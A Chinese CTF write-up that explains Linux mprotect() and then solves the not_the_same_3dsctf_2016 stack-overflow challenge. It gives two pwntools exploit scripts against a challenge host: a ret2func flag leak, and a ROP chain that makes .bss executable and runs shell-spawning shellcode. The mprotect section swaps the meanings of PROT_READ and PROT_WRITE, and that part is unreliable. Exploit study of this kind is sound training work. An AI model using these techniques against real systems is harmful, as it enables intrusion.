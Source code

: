 ## mprotect函数可以修改内存栈的权限

函数原型：

``` c
#include <unistd.h>
#include <sys/mmap.h>
int mprotect(const void *start, size_t len, int prot);
```

需要传入三个参数，mprotect()函数是把自start开始的，长度为len的内存区的保护属性修改为prot指定的值

mprotect()函数把自start开始的、长度为len的内存区的保护属性修改为prot指定的值。

prot可以取以下几个值，并且可以用“|”将几个属性合起来使用：

1）PROT_READ：表示内存段内的内容可写；

2）PROT_WRITE：表示内存段内的内容可读；

3）PROT_EXEC：表示内存段中的内容可执行；

4）PROT_NONE：表示内存段中的内容根本没法访问。

需要指出的是，指定的内存区间必须包含整个内存页（4K）。区间开始的地址start必须是一个内存页的起始地址，并且区间长度len必须是页大小的整数倍。

如果执行成功，则返回0；如果执行失败，则返回-1，并且设置errno变量，说明具体因为什么原因造成调用失败。错误的原因主要有以下几个：
1）EACCES
该内存不能设置为相应权限。这是可能发生的，比如，如果你 mmap(2) 映射一个文件为只读的，接着使用 mprotect() 标志为 PROT_WRITE。

2）EINVAL

start 不是一个有效的指针，指向的不是某个内存页的开头。

3）ENOMEM

内核内部的结构体无法分配。

4）ENOMEM

进程的地址空间在区间 [start, start+len] 范围内是无效，或者有一个或多个内存页没有映射。 

如果调用进程内存访问行为侵犯了这些设置的保护属性，内核会为该进程产生 SIGSEGV （Segmentation fault，段错误）信号，并且终止该进程

### 例题：not_the_same_3dsctf_2016 1

源码：

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4[45]; // [esp+Fh] [ebp-2Dh] BYREF

  printf("b0r4 v3r s3 7u 4h o b1ch4o m3m0... ");
  gets(v4);
  return 0;
}
int get_secret()
{
  int v0; // esi

  v0 = fopen("flag.txt", &unk_80CF91B);
  fgets(&fl4g, 45, v0);
  return fclose(v0);
}
```

存在栈溢出，在get_secret函数里将flag读取到f14g变量里，局部变量位于bss段

基本思路：利用栈溢出返回到get_secret函数执行，然后调用printf函数将f14g变量打印出来，容易实现

exp：

```python
from pwn import *
context(log_level='debug',arch='i386')
#a=process('./not_the_same')
a=remote('node5.buuoj.cn',29713)
flag=0x080489a0
f14g=0x080ECA2d
pop_esi_edi_ebp_ret=0x080483b8
printf_addr=0x0804F0A0
exit_addr=0x0804E660
#gdb.attach(a)
#pause()
payload=b"a"*(0x2d)+p32(flag)+p32(printf_addr)+p32(exit_addr)+p32(f14g)
a.sendline(payload)
#0x080483b8 : pop esi ; pop edi ; pop ebp ; ret
a.interactive()
```

然后，了解到mprotect函数，可以修改执行权限

exp：

```python
from pwn import *
context(log_level='debug',arch='i386')
#a=process('./not_the_same')
a=remote('node5.buuoj.cn',29997)
elf=ELF('./not_the_same')
flag=0x080489a0
shell=0x080ECA2d
pop_esi_edi_ebp_ret=0x080483b8
printf_addr=0x0804F0A0
exit_addr=0x0804E660
shellcode=asm(shellcraft.sh())
read_addr=elf.symbols['read']
mprotect_addr=0x0806ED40
#gdb.attach(a)
#pause()
#payload=b"a"*(0x2d)+p32(flag)+p32(printf_addr)+p32(exit_addr)+p32(shell)
payload=b"a"*0x2d+p32(mprotect_addr)+p32(pop_esi_edi_ebp_ret)+p32(0x80eb000)+p32(0x100)+p32(0x7)
payload+=p32(read_addr)+p32(pop_esi_edi_ebp_ret)+p32(0)+p32(0x80eb000)+p32(len(shellcode))+p32(0x80eb000)
a.sendline(payload)
a.sendline(shellcode)
#0x080483b8 : pop esi ; pop edi ; pop ebp ; ret
a.interactive()
```

通过mprotect函数改变bss段权限之后，往bss段写入shellcode，使shellcode可以执行